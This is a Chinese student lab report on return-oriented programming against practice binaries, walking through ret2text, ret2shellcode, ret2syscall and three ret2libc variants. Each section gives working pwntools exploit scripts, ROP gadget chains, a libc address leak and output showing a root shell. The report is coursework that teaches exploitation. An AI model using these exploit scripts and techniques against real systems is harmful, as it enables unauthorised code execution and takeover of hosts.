


# <center>软件与系统安全 实验2B L1<center>  
**<p align="center">赵旭 2022E8015082079**<p>

### 前言
ROP（Return-Oriented Programming）是一种基于代码重用的攻击技术，通过利用程序中的可执行代码（gadget）来构建攻击代码序列。攻击者通过伪造栈帧和构造恶意payload来实现将程序的控制权转移到攻击者指定的代码位置，从而实现攻击目的。ROP攻击是一种非常强大的攻击技术，可以绕过ASLR等保护机制，同时无需利用漏洞的shellcode等可疑代码，往往能够实现难以察觉的远程攻击。因此，ROP攻击已经成为现代漏洞利用的主要方式之一，对于系统安全研究人员和安全工程师来说，掌握ROP攻击技术至关重要。

在本实验中，我们对一些基本的ROP应用场景进行攻击，最终目标为获取系统的shell从而获取进一步的控制权。

实验环境： **Ubuntu 22.04.1 LTS (5.15.90.1-microsoft-standard-WSL2)、IDA Pro 7.7.220118、Python 3.10.6**

### ret2text
#### 背景
ret2text是一种最基础的攻击方式，我们需要利用程序本身的片段进行拼凑，得到我们想要的代码，从而获取控制权。
#### 流程
首先使用checksec检查其保护机制
```bash
root@AimerLegion:~/exp2/binary# checksec ret2text
[*] '/root/exp2/binary/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
由此可知这是一个32位x86架构程序，具有以下特征：部分重定位只读（Partial RELRO），没有开启堆栈保护（No canary found），开启了堆栈不可执行（NX enabled），没有启用位置独立性保护（No PIE），利用IDA查看其main函数源码:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```
在主函数中使用了gets()函数，说明可以利用缓冲区溢出，随后查看secure()函数源码：
```C
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```
其中调用了system("/bin/sh")，查询其地址为：
```x86asm
.text:0804863A     mov  dword ptr [esp], offset command ; "/bin/sh"
```
因此我们的目标是利用gets()函数对缓冲区进行溢出，覆盖main函数的返回地址为0804863A，从而获取系统的shell，剩下的工作是计算需要溢出的字段长度。

我们在gets()函数处设置断点，各寄存器值为：

由此可得s相对于返回位置的偏移为EBP-EAX+4=0xFFBBBDA8-0xFFBBBD3C=0x6C+4

因此，我们应填充0x6C+4个垃圾字符，随后放入system("/bin/sh")的地址0x0804863A，随后即可调用shell，程序代码为：
```python
from pwn import *
from pwnlib.util.packing import p32

sh = process('binary/ret2text')
target = 0x804863a
payload = b'A' * (0x6c+4) + p32(target)
sh.sendline(payload)
sh.interactive() 
```
#### 运行结果
```shell
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2text.py
[+] Starting local process 'binary/ret2text': pid 12659
[*] Switching to interactive mode
There is something amazing here, do you know anything?
Maybe I will tell you next time !$ ls
README.md  assets  binary  code  linux_server64  report.md
$ whoami
root
$  
```
可见成功调用了shell，攻击成功。

### ret2shellcode
#### 背景
ret2shellcode的攻击方式是将栈上存储的shellcode作为攻击载荷，通过栈溢出漏洞将程序的控制流指向该shellcode，从而实现攻击目的。攻击者通常通过生成恶意shellcode的工具，将shellcode写入栈中，然后通过修改程序的栈帧，将程序的返回地址指向存储shellcode的地址。相比之下，ret2text攻击是将程序代码中的某些可执行指令作为攻击载荷，通过栈溢出漏洞将程序的返回地址指向该指令的地址，从而实现攻击目的。其不同之处在于ret2shellcode攻击可以通过代码注入实现任意代码执行，而ret2text攻击则需要利用程序本身的可执行指令来实现恶意代码执行。
#### 流程
首先使用checksec检查其保护机制
```bash
root@AimerLegion:~/exp2/binary# checksec ret2shellcode
[*] '/root/exp2/binary/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
该程序部分重定位只读，没有开启堆栈保护，关闭了堆栈不可执行，没有启用位置独立性保护，具有可读可写可执行的段，完美符合我们的攻击条件，查看其main函数源码为：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
同样存在溢出攻击的漏洞，而且该程序将s复制到buf2中，通过调试可发现buf2在bss中，且其地址为0x0804A080，即

因此我们构造溢出数据结构为初始部分调用shell的代码，中间为垃圾数据，最后覆盖返回地址到初始部分（即buf2的地址），填充长度与ret2text计算方法相同，代码为：
```python
from pwn import *
from pwnlib.util.packing import p32

sh = process('binary/ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
payload = shellcode.ljust(112, b'A') + p32(buf2_addr)
sh.sendline(payload)
sh.interactive()
```
#### 运行结果
```bash
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2shellcode.py
[+] Starting local process 'binary/ret2shellcode': pid 13250
[*] Switching to interactive mode
No system for you this time !!!
bye bye ~$ ls
README.md  assets  binary  code  linux_server64  report.md
$ whoami
root
$  
```
成功调用shell，攻击成功。
### ret2syscall
#### 背景
ret2syscall通过在栈上构造一系列参数并使用int 0x80或sysenter指令调用系统调用来实现攻击。但是需要深入了解系统调用的细节，因为不同操作系统和架构的系统调用参数和调用方式可能会有所不同。与ret2text和ret2shellcode攻击相比，ret2syscall是一种更底层的攻击方式，不需要利用函数调用，而是直接调用操作系统提供的接口，因此也更加复杂。
#### 流程
同样首先检查其保护程序：
```bash
root@AimerLegion:~/exp2/binary# checksec ret2syscall
[*] '/root/exp2/binary/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
可见其开启了堆栈不可执行，因此我们不能在利用将shellcode注入栈中进行攻击，首先查看其源码：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
有gets()函数，存在溢出漏洞，随后同前两个实验使用动态调试计算其偏移量，可知v4要想覆盖返回地址的填充量仍为112字符。因为不能使用栈执行程序，我们利用系统调用需要 eax 应该为 0xb，ebx 应该指向 /bin/sh 的地址，ecx 应该为 0，edx 应该为 0。因此我们要逐一解决上述条件。
首先搜索控制eax的gadget：
```bash
root@AimerLegion:~/exp2/binary# ROPgadget --binary ret2syscall  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```
选用第二个控制eax，即0x080bb196，随后继续搜索ebx：
```bash
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```
可以发现该地址同时控制了其它三个寄存器，因此选用该地址，随后搜索int：
```bash
root@AimerLegion:~/exp2/binary# ROPgadget --binary ret2syscall  --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```
可以发现刚好有满足条件的地址，因此我们的系统调用条件全部具备，此时我们构造的溢出结构为 **112字节垃圾字符, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80地址**。调用顺序为先溢出到返回地址为eax，其值为0xb，随后顺序执行，弹出edx，ecx，ebx并分别将其值置为0，0和binsh的地址，最后利用int 0x80触发系统调用，调用execve("/bin/sh",NULL,NULL)函数。
构造代码为：
```python
from pwn import *

sh = process('binary/ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    [b'A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```
#### 运行结果
```bash
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2syscall.py
[+] Starting local process 'binary/ret2syscall': pid 1057
[*] Switching to interactive mode
This time, no system() and NO SHELLCODE!!!
What do you plan to do?
$ ls
README.md  assets  binary  code  linux_server64  report.md
$ whoami
root
$  
```
可见成功获取了shell。
### ret2libc1
#### 背景
ret2libc通过利用程序中某个函数的调用，将程序执行流程跳转到libc库中的某个函数来达到控制程序的目的。这种攻击方式通常会使用到两个重要的地址：libc库中需要调用的函数地址和/bin/sh字符串的地址。首先通过泄露程序中某个函数在libc库中的地址，计算出libc库的基地址，然后再根据需要调用的函数在libc库中的偏移地址，计算出函数的地址。最后将返回地址修改为需要调用的函数地址，再将函数参数压入栈中，就可以执行目标函数了。
#### 流程
跟前面一样，先查询程序保护：
```bash
root@AimerLegion:~/exp2/binary# checksec ret2libc1
[*] '/root/exp2/binary/ret2libc1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
可以看见程序开启了堆栈不可执行，查看其源码：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```
发现存在gets()函数，存在溢出漏洞。随后搜索bin/sh：
```sh
root@AimerLegion:~/exp2/binary# ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
```
发现存在该关键词，随后通过ida发现该程序有system函数，地址为：
```x86asm
.plt:08048460     ; int system(const char *command)
```
至此，攻击的条件都具备，同ret2text一样，我们只需溢出覆盖返回地址到system函数，并将bin/sh的位置作为参数传进去，溢出的长度同之前一样可以计算得到，最终程序为：
```python
from pwn import *

sh = process('binary/ret2libc1')
binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat([b'a' * 112, system_plt, b'b' * 4, binsh_addr])
sh.sendline(payload)
sh.interactive()
```
#### 运行结果
```sh
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2libc1.py
[+] Starting local process 'binary/ret2libc1': pid 334
[*] Switching to interactive mode
RET2LIBC >_<
$ whoami
root
$ 
```
### ret2libc2
#### 背景
在retlibc1的基础上，去掉了源程序自带的/bin/sh字段，因此我们在攻击时需要自行注入该字段。
#### 流程
首先查询保护：
```sh
root@AimerLegion:~/exp2/binary# checksec ret2libc2
[*] '/root/exp2/binary/ret2libc2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
程序保护措施与libc1相同，查询关键字段/bin/sh：
```sh
root@AimerLegion:~/exp2/binary# ROPgadget --binary ret2libc2 --string '/bin/sh'
Strings information
============================================================
```
可见查不出任何结果，好消息是仍然能够通过ida查询到system函数：
```asm
.plt:08048490 ; int system(const char *command)
```
因此我们需要将bin/sh注入到程序中，并传递到system函数中，查看程序main函数代码：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("Something surprise here, but I don't think it will work.");
  printf("What do you think ?");
  gets(s);
  return 0;
}
```
存在gets()函数，因此我们可以利用gets()函数构造好我们的栈帧，其中我们还要再调用一次gets()函数，将bin/sh传入进去，具体的结构为**112字节垃圾字符, gets_plt, system_plt, buf, buf**,其中前面是垃圾字符，直到覆盖返回地址，第一个是gets函数的地址，负责再次调用gets让我们输入bin/sh，其参数为第一个buf，随后返回调用system，其参数为第二个buf，这样就能完成system('/bin/sh')的拼接，其代码为：
```python
from pwn import *

sh = process('binary/ret2libc2')
gets_plt = 0x08048460
system_plt = 0x08048490
buf = 0x804a080
payload = flat(
    [b'a' * 112, gets_plt, system_plt, buf, buf])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```
在本实验中，buf的地址可以是bss段任意一个变量，因为不需要在bss段执行代码。
#### 运行结果
```sh
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2libc2.py
[+] Starting local process 'binary/ret2libc2': pid 731
[*] Switching to interactive mode
Something surprise here, but I don't think it will work.
What do you think ?$ whoami
root
$  
```
### ret2libc3
#### 背景
在ret2libc2的基础上，把程序自带的system函数去掉，因此我们需要通过libc库引入system函数。
#### 流程
首先查看保护：
```sh
root@AimerLegion:~/exp2/binary# checksec ret2libc3
[*] '/root/exp2/binary/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
同libc2一样，随后再查看其main函数：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s);
  return 0;
}
```
存在gets函数，有溢出漏洞，但是搜索system和bin/sh的结果都为空，因此我们需要自己利用libc库构造system函数。我们要得到libc中的某个函数的地址，一般的方法是采用输出某个函数对应的 got 表项的内容。同时由于libc的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。
因此，我们可以借助puts函数，首先打印出libc_start_main的地址，随后计算出libc的基址，再在libc中查找system函数和bin/sh的地址，最后再次利用缓冲区泄露得到shell。需要注意的是，我们需要两次运行main函数，因此我们在put出libc_start_main的地址后需要将返回地址设为main函数地址，具体程序如下所示：
```python
from pwn import *
from pwnlib.util.packing import p32,u32

sh = process('binary/ret2libc3')
ret2libc3 = ELF('binary/ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
payload = b'A' * 112 + p32( puts_plt) + p32(main) + p32(libc_start_main_got)
sh.sendlineafter(b'Can you find it !?', payload)

libc_start_main_addr = u32(sh.recv()[0:4])
libc = ret2libc3.libc
libc.address = libc_start_main_addr - libc.symbols['__libc_start_main']
system_addr = libc.symbols['system']
binsh_addr = list(libc.search(b'/bin/sh'))[-1]
payload = b'A' * 104 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.sendline(payload)
sh.interactive()
```
第一次输入的是**垃圾字符，puts函数地址，main函数地址，libc函数地址**，负责将libc的地址泄露出来，第二次输入的是**垃圾字符，libc中system函数地址，填充字符，libc中/bin/sh地址**，负责获取shell。
#### 运行结果
```sh
root@AimerLegion:~/exp2# /bin/python3 /root/exp2/code/ret2libc3.py
[+] Starting local process 'binary/ret2libc3': pid 1289
[*] '/root/exp2/binary/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ whoami
root
$  
```
成功获取shell。
### 总结
在ret2text攻击中，我们只需要利用程序本身所携带的代码段，合理拼接这些片段达到我们想要的控制目标。在ret2shellcode攻击中，我们将我们需要的而程序本身不存在的代码注入到栈中，再控制程序流向我们事先布置好的恶意代码，但这要求栈是可执行的，当开启了NX后这种办法很容易失效。在ret2syscall攻击中，我们通过拼凑一些程序原片段或者注入的办法改变寄存器的值，使程序满足系统调用条件，从而达到目标。在ret2libc攻击中，我们需要通过一些曲折的办法先让程序暴露出libc的地址，再通过libc中的片段实现我们的目标。
总的来说，要想进行ROP攻击，我们首先要确定是否存在溢出，是否存在我们需要的程序段，是否开启各种保护，确定这几项后我们需要找到构造攻击所需的各类地址，最后合理构造溢出的字符串内容，平衡栈帧，获取程序控制流，以达到我们的目的。